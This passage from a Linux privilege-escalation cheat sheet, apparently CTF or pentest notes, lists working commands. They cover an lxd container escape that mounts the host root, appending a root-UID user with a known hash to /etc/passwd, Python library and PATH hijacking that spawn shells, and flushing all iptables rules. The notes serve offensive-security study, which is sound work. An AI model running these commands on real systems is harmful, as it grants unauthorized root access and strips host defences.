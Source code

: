 - lxd group
    - `id` -> user has lxd group
    - `wget https://github.com/saghul/lxd-alpine-builder/raw/master/alpine-v3.13-x86_64-20210218_0139.tar.gz -O alpine.tar.gz`
    - `lxc image import alpine.tar.gz --alias alpine`
    - `lxc init alpine privesc -c security.privileged=true`
    - `lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true`
    - `lxc start privesc`
    - `lxc exec privesc /bin/sh`
    - `cd /mnt/root ....`
    
### Software
- [GTFOBins](https://gtfobins.github.io/)
    - Linux privileges escalation 
- [Pspy](https://github.com/DominicBreuker/pspy)
    - Monitor the process
#### Enumeration
Scan the system to find which can be use for privileges escalation
- [PEASS-ng](https://github.com/carlospolop/PEASS-ng)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [LSE](https://github.com/diego-treitos/linux-smart-enumeration)
- [Linux-Exploit-Suggester (LES)](https://github.com/mzet-/linux-exploit-suggester)
### Tips
- Writable `/etc/passwd`
    - Append `root1:yeDupmFJ8ut/w:0:0:root:/root:/bin/bash` to file
        - `root1` : `meow`
    - Generate hash : `openssl passwd {PASSWORD}`
- Add User
    - `useradd -p $(openssl passwd -1 meow) root1`
- Add to sudo group
    - `usermod -aG sudo root1`
### Program Hijack
#### Python
- import library priority
	1. local file
	2. `python -c "import sys;print(sys.path)"`
- Check file permission if it can be write 
- Fake library file
	```python
	import pty
	pty.spawn("/bin/bash")
	```
#### Bash
- Relative path is from `$PATH`
	- We can modify this by
		- `PATH=/my/fake/path:$PATH ./binary`
	- Fake path can contain the shell/reverse shell command file
### IP Tables
- Clear all rull
```bash
iptables -P INPUT ACCEPT
iptables -P FORWARD ACCEPT
iptables -P OUTPUT ACCEPT
iptables -F
iptables -X
```
- Check open port
    - `netstat -tulpn | grep LISTEN`
### Program
- `tar` Wildcard